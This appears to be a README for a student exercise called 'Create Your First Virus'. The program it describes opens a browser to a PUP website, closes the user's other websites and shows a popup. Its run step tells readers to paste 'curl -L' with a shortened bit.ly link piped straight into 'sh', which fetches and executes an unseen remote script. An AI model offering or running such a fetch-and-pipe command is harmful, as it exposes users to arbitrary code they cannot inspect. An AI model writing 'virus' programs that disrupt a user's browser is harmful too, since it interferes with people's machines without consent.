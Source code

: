 # Exercise 02 - Create Your First Virus
## Task
Create your first virus
- Executable file
- Will open browser and PUP website automatically
- Will close all other website
- Pop up message, "Welcome to PUP"
## Prerequisites
To be able to run the virus, the host machine should be:
- Running any Linux Operating System
- Has either `google-chrome` or `firefox` or `brave` browser
## Running the Virus
To execute the virus, copy and paste the command below:
```sh
curl -L https://bit.ly/4fJCXo0 | sh
```
## Demonstration
![demo_gif](demonstration/demo.gif)
